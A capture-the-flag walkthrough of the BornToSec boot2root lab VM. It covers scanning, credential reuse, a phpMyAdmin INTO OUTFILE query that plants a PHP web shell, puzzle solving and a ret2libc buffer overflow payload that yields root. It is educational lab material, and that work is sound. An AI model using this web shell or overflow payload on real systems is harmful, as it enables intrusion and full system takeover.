

# EXPLOIT 1: REMOTE ATTACK

We'll be working on the Kali Linux VM for this exploit. Since we can communicate with the target VM over the same virtual network, we'll start by scanning the network to find the IP address of the hosted server.

## Scanning the network

First, we need to find the IP address of the other VM. For this task, we'll use the IP address of our local machine *(Kali Linux)* with `netdiscover` to perform the scanning. In our case, the IP is `198.168.144.5`.

```
sudo netdiscover -r 192.168.144.5/24
```


Looking at the result, the IP `192.168.144.6` looks interesting as it's an *Unknown vendor*. But when we `ping` it we're not receiving any responses. However, when we ping the lower IP address, `192.168.144.3`, we receive a response!

Now that we have the IP address of the hosted server, we can use `nmap` to scan it and gather more information.

```
nmap -sV -sC 192.168.144.3
```
Result:
```
PORT    STATE SERVICE  VERSION
21/tcp  open  ftp      vsftpd 2.0.8 or later
|_ftp-anon: got code 500 "OOPS: vsftpd: refusing to run with writable root inside chroot()".
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 07:bf:02:20:f0:8a:c8:48:1e:fc:41:ae:a4:46:fa:25 (DSA)
|   2048 26:dd:80:a3:df:c4:4b:53:1e:53:42:46:ef:6e:30:b2 (RSA)
|_  256 cf:c3:8c:31:d7:47:7c:84:e2:d2:16:31:b2:8e:63:a7 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Hack me if you can
143/tcp open  imap     Dovecot imapd
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2015-10-08T20:57:30
|_Not valid after:  2025-10-07T20:57:30
|_imap-capabilities: ID more listed have post-login LITERAL+ IDLE SASL-IR capabilities Pre-login STARTTLS ENABLE LOGINDISABLEDA0001 IMAP4rev1 LOGIN-REFERRALS OK
|_ssl-date: 2024-09-13T13:29:37+00:00; -1h42m37s from scanner time.
443/tcp open  ssl/http Apache httpd 2.2.22
|_ssl-date: 2024-09-13T13:29:38+00:00; -1h42m37s from scanner time.
|_http-server-header: Apache/2.2.22 (Ubuntu)
| ssl-cert: Subject: commonName=BornToSec
| Not valid before: 2015-10-08T00:19:46
|_Not valid after:  2025-10-05T00:19:46
|_http-title: 404 Not Found
993/tcp open  ssl/imap Dovecot imapd
|_imap-capabilities: ID more have post-login LITERAL+ IDLE SASL-IR listed capabilities AUTH=PLAINA0001 ENABLE Pre-login IMAP4rev1 LOGIN-REFERRALS OK
| ssl-cert: Subject: commonName=localhost/organizationName=Dovecot mail server
| Not valid before: 2015-10-08T20:57:30
|_Not valid after:  2025-10-07T20:57:30
|_ssl-date: 2024-09-13T13:29:38+00:00; -1h42m37s from scanner time.
Service Info: Host: 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We can see that various services are present, but the `http` and `ssl/http` *(https)* services on ports *80* and *443*, respectively, are particularly interesting.

## Exploring the webserver

Let's connect to the web page on port 80 using HTTP!

```
http://192.168.144.3
```


This page loads when we access the address, but there's nothing interesting to do. In this case, we'll use `gobuster` to search for "hidden" directories and files on the server.
After scanning port 80 *(HTTP)*, we found that all the pages return a 403 status code, indicating they are forbidden. So let's scan port 443 *(HTTPS)* to see if we can find anything interesting.
``` 
sudo gobuster dir -k -u https://192.168.144.3 -w /usr/share/dirb/wordlists/common.txt -x .php -o gobuster.txt
```


There are 3 pages that we have access to:
- `/forum`
- `/phpmyadmin`
- `/webmail`

Upon visiting the `/phpmyadmin` and `/webmail` pages, a login page appears. However, when we access `/forum`, we can access all the topics without needing to log in.


After exploring the topics, we found that the one titled "Probleme login ?" contains logs of all users who attempted to connect to the forum. If we search through the topic using *Ctrl + F* for the word "password," we can find the string `!q\]Ej?*5K5cy*AJ` that looks like a password. Moreover, the user `lmezard` successfully logged into the forum shortly after that string was entered.


Let's try logging into the forum with the credentials we just found!\
And it worked! Now we have access to the user's email account, `laurie@borntosec.net`. What if they used the same password for every registration? *(Something users should definitely avoid doing)*

Next, we attempt to log in to the webmail using the email address we just found and the same password. Without any surprise, it worked as well... **(You should avoid at all cost to reuse the same password for every registrations! Use a password manager instead!)**



In the webmail, we find only two mails, one of which has the subject "DB Access". Upon reviewing the mail, we find the password for the root user of the database: `Fg-'kKXBj87E:aJ$`. Which can be used to log on the */phpmyadmin* page.

We now have access to the database as root. What's next?\
After some research, we know that there's an exploit called **Shell Uploading**, which involves uploading a file to the webserver via the database.\
To begin, we need to create a new database in the *Databases* tab.


Before making a query, we need to locate a directory where we have permission to create a file. If we look back at the forum, we find that the webserver is running on **My Little Forum**. Let's take a look at the template by checking the [source code](https://github.com/My-Little-Forum/mylittleforum) on GitHub! As we can see, there's a repository named `templates_c` that we can access.

With that information, we go into the newly created database and navigate to the *SQL* tab. In the *SQL* tab, we'll execute the following query to upload a file that will run a shell command:
```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/forum/templates_c/backdoor.php"
```

Next, we go at the file we just created using the following URL:
```
https://192.168.144.3/forum/templates_c/backdoor.php
```
However, all we see is a blank page. To get a result, we should append `?cmd={command}` to the URL so the script will execute the command we want.


We can now execute shell commands as the user `www-data`. For the remainder of this part, we'll use **BurpSuite** to help visualize the responses.\
After some exploration, we discover a repository named *LOOKATME* in `/home`, that contains a file called *password*. Displaying the content of this file reveals credentials for *lmezard* with the password: `G!@M6f4Eatau{sF"`. 


Let's try using those credentials across the various available services!

## Exploiting lmezard

Firstly, if we attempt to log in to SSH, we see that it doesn't work. However, when we try logging in to FTP, it worked!


Now that we have access to the user *lmezard* on FTP, let's do some exploration as usual! As we can see, there are two files available: `README` and `fun`.


So, we transfer the files to our local environment using the following command:

```
mget *
```

Then, let's check the contents of both files, starting with *README*. This file contains the following sentence:

```
Complete this little challenge and use the result as password for user 'laurie' to login in ssh
```

It seems that we need to solve the challenge in *fun* to get access to the user `laurie` on SSH. Let's get going!

### A *fun* challenge

To start, we need to know what type of file is `fun` and inspect its content.

```
file fun
```
Result:
```
fun: POSIX tar archive (GNU)
```

It appears to be an archive file, which means it contains multiple files. Next, we'll examine the content of *fun*.\
We find a lot of text, with each line formatted like this:

```
//file616ft_fun/AMH11.pcap0000640000175000001440000000003412563172202012453 0ustar  nnmusers}void useless() {
```
The messages resemble C code, and upon closer inspection, we can find the following:

```
int main() {
        printf("M");
        printf("Y");
        printf(" ");
        printf("P");
        printf("A");
        printf("S");
        printf("S");
        printf("W");
        printf("O");
        printf("R");
        printf("D");
        printf(" ");
        printf("I");
        printf("S");
        printf(":");
        printf(" ");
        printf("%c",getme1());
        printf("%c",getme2());
        printf("%c",getme3());
        printf("%c",getme4());
        printf("%c",getme5());
        printf("%c",getme6());
        printf("%c",getme7());
        printf("%c",getme8());
        printf("%c",getme9());
        printf("%c",getme10());
        printf("%c",getme11());
        printf("%c",getme12());
        printf("\n");
        printf("Now SHA-256 it and submit");
```

We need to find the return value of each *getme()* function hidden within *fun* to retrieve the password. With the help of the Python [script](scripts/fun_decrypt.py) I've made, we can filter the file’s output to extract the relevant information.

Upon closer inspection, we can see that the return values for *getme()* functions 8 through 12 are clearly visible. However, for *getme()* functions 1 through 6, the logic is as follows: after each *getme()* or *return()*, there is a comment with "file" followed by a number. By checking the file number n + 1 of a *getme()*, we can find its return value.\
Example: After **getme6()**, the file number is 521, so we need to find file number 522 to get its return value, which is located after **return('t')**.

With all that informations, we can reconstruct the password: `Iheartpwnage`.\
However, when we try to log in to *laurie* via SSH, it doesn’t work. This suggests the password might be hashed, so let's try hashing it using **SHA-256**!

```
echo -n "Iheartpwnage" | sha256sum
```

That gives us the following password:
```
330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

And it works! We're able to log in to *laurie* via SSH after hashing the password.

## Exploiting laurie

On the user *laurie*, we have two files: `README` and `bomb`. As usual, we'll first check the contents of the *README* and determine the file type of *bomb* and its content.\
In *README*, we have the following text:

```
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```

It seems that the file *bomb* is a binary, which we can confirm by using the **file** command.

```
bomb: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.0.0, not stripped
```

It appears to be an executable file. In this case, we can perform reverse engineering to retrieve its [source code](scripts/bomb_source.c).

### Defusing the *bomb*

By analyzing the source code, we can see that after running the binary, there are 6 phases we need to complete in order to defuse the bomb. Let's get started!

**PHASE 1**

This phase is straightforward: the program checks if the input string is "Public speaking is very easy." If it's anything else, the bomb explodes.

Answer: `Public speaking is very easy.`

**PHASE 2**

This phase is also quite simple: we need to enter a series of 6 numbers. The first number must be 1, and each subsequent number is the product of the previous number with the current index + 1.

Answer: `1 2 6 24 120 720`

**PHASE 3**

For this phase, we need to input a sequence consisting of a number, a letter, and another number. The first argument is processed through a switch case, where its value (ranging from 1 to 7) determines the expected letter for the second argument. It then checks if the third argument matches a predefined number. With the help of the hint in the `README`, we can determine that the letter must be a 'b'.

Answer: `1 b 214`

**PHASE 4**

This phase is a bit more challenging. We need to input a number that will be processed by a recursive function performing a mathematical operation. I've made a [script](scripts/phase4.c) by copying the recursive function to test it and obtain the answer to input.

Answer: `9`

**PHASE 5**

To solve this phase, we have to input a string of 6 characters, which will be used as index in an array of character to form another string. The resulting string is then compared to "giants". I created a [script](scripts/phase5.c) to encode the input string, that will help determining the answer.

Answer: `opekma`

**PHASE 6**

The final phase is the most challenging, it awaits 6 numbers as input. There are many declared variables, but upon closer inspection, we notice a variable named **node1** that is used but not declared. This suggests it might be a global struct forming a linked list.\
Using gdb, we can investigate further by printing the value of **node1** and the next 5 nodes in the list.


Looking back at the source code, we can see that it sorts the 6 numbers we entered in decreasing order. If the list is sorted correctly, the bomb is defused.

Answer: `4 2 6 3 1 5`

As stated in the *README*, we need to concatenate the results from all phases to obtain the password for **thor**. This gives us the following string:

```
Publicspeakingisveryeasy.126241207201b2149opekmq426315
```

However, when we attempt to log in as *thor*, it doesn't work. It appears that this is a mistake and we need to swap the positions of the 3 and 1 at the end. This gives the real password:

```
Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

## Exploiting thor

Let's dive straight into the files available in this session! There's a *README* file that contains the following text:

```
Finish this challenge and use the result as password for 'zaz' user.
```

It looks like we have yet another challenge to solve in a file named *turtle*.

### Drawing a... *turtle?*

The *turtle* file contains 1,471 lines of instructions in French, and the syntax indicates that we should use the Turtle graphics library to solve the challenge. Therefore, I've made a [script](scripts/draw_turtle.py) that will draw the instructions given in *turtle*. The result we obtain from running the script is the word `SLASH`.\
However, that's not all! The last line in the file, "Can you digest the message? :)", is a hint referencing the **md5sum** command from its man page description. *


After encrypting the word 'SLASH' with md5sum, we obtain the password for the *zaz* user:

```
646da671ca01bb5d84dbb5fb2238dc8e
```

## Exploiting zaz

We have a file named *exploit_me* and a directory named *mail*. After inspecting the *mail* directory, we discover that it contains three empty files. This leaves us with the *exploit_me* file, which we confirmed to be a binary using the **file** command. So, we decompile it to obtain its source code to identify what we can exploit.

### Time to *exploit*

In the [source code](scripts/exploit_me_source.c), we observe that the program accepts a single argument, which it copies into a buffer of size 128. Given this, we can provide an argument that exceeds 128 characters to overflow the buffer. Hence, this overflow allows us to exploit the vulnerability using a `Ret2libc` attack technique.

To proceed, we need to obtain the memory addresses of **system()** and the file **/bin/sh**. This will allow us to overwrite the return address, executing the *system()* function with */bin/sh*, thereby granting us a shell prompt.

First, we'll use **gdb** to retrieve the address of the *system()* function.

```
> b main
> r
> p system
```

We have obtained the *system()* function address: `0xb7e6b060`. Now, let's proceed to find the address of the */bin/sh* file in the libc, using **gdb** as well.

```
i proc map
```

We can see that the libc starts at `0xb7e2c000` and ends at `0xb7fd2000`. Using gdb, we search for */bin/sh* within this address range:

```
find 0xb7e2c000, 0xb7fd2000, "/bin/sh"
```

And that gives us the address for */bin/sh*: `0xb7f8cc58`.\
Now, to determine the exact point where our input overflows into the return address on the stack, we need to identify the offset. Using this [website](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html) we find that the offset is at 140.

Finally, we will construct the payload using all the information we've gathered, following this pattern:\
`Offset + adrress of system + "DUMM" + address of /bin/sh`\
This gives:

```
./exploit_me $(python -c 'print "A"*140 + "\x60\xb0\xe6\xb7" + "DUMM" + "\x58\xcc\xf8\xb7"')
```

Executing this gives access to the **root** user!